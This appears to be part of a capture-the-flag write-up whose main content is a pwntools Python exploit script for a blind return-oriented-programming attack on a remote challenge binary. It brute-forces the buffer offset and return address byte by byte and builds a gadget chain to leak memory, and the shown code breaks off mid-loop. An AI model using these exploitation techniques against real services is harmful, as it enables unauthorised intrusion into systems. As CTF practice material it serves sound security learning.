 ## Exploit in Action

### To do


## My Complete Script

```py
import pwn
# Global Variables
libc = pwn.ELF("libc-2.23.so")
HOST = "34.159.129.6"
PORT = 30550
OFFSET = 88
BINARY_BASE = 0x400000
RIP = 0x40070a
DUMP_FUNC = BINARY_BASE + 1806
LOOPBACK_FUNC = BINARY_BASE + 0x5c0
BROP_GADGET = 0x4007ba
CALL_PUTS = 0x400560
PUTS_GOT = 0x601018


def Test():
    io = pwn.remote(HOST, PORT)
    io.recvuntil(b'?\n')
    payload = b'A'*OFFSET
    payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
    payload += pwn.p64(BINARY_BASE)
    payload += pwn.p64(0x40071f)
    print(hex(BROP_GADGET + 9))
    io.send(payload)
    mssg = io.recvall()
    print(mssg)
    io.interactive()


def GetRipOffset():
    offset = 1
    while True:
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*offset
        io.recvuntil(b"?\n")
        io.send(payload)
        mssg = io.recvall()
        if b'No password' not in mssg:
            break
        offset += 1
    return offset-1


def BruteRip():
    rip = b''
    for i in range(0, 8):
        for j in range(0, 256):
            io = pwn.remote(HOST, PORT, level='critical')
            payload = b'A'*OFFSET + rip + pwn.p8(j)
            io.send(payload)
            mssg = io.recv()
            if b'No password' in mssg:
                rip += pwn.p8(j)
                pwn.log.success("RIP: " + hex(pwn.unpack(rip, 'all')))
                io.close()
```